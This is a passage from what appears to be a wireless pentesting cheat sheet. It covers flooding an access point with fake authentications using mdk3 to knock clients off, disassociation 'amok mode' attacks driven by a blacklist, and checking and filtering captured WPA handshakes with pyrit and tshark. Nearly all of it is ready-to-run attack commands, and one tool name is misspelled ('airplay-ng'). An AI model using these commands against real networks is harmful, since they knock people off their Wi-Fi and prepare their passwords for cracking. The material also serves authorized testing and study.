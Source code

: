 Could be sound strange, but if you authenticate 5000 clients to the Access Point is possible to kick out client of the network and then capture their handshake.

```text
airplay-ng -1 0 -e <ESSID> -h 00:a0:8b:cd:02:65 <IFACE>  #To authenticate 1 client
```

```text
mdk3 <IFACE> a -a <BSSID> #Authenticating clients until DoS
```

Finally the AP will eject the clients with less power rate.

### Dissassociation Amok Mode Attack

Same as deauthentication attack but mdk3 gives us the opportunity to introduce `allow/deny` lists.

```text
blacklist.txt:
a0:e4:b2:45:f6:87

mdk3 <IFACE> d -w blacklist.txt -c 1
```

### Validating the handshake

Sometimes `aircrack-ng` tells us that it capture a handshake when it hasn't. So we can validate it with `pyrit`.

```text
pyrit -r Capture-01.cap analyze
```

### Filtering the capture

When we are trying to capture a handshake, maybe we are capturing a lot of packets, so we just need to filter that. \(EAPOL -&gt; Handshakes\) \(wlan.fc.type\_subtype==0x08 are Beacons\) \(wlan.fc.type\_subtype==0x05 are Probe Response\)

```text
tshark -r Capture-01.cap -Y "wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol" -F pcap 2>/dev/null
tshark -r Capture-01.cap -Y "wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol"  -w filteredCapture -F pcap 2>/dev/null

pyrit -r filteredCapture analyze
```

Also it is recommended filtering with the target BSSID.

```text
tshark -r Capture-01.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" -w filteredCapture -F pcap 2>/dev/null
```

IF you want to do a doble analysis you may change `-Y` parameter to `-R "FILTER" -2`

```text
tshark -r Capture-01.cap -R "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" -2 -w filteredCapture -F pcap 2>/dev/null
```
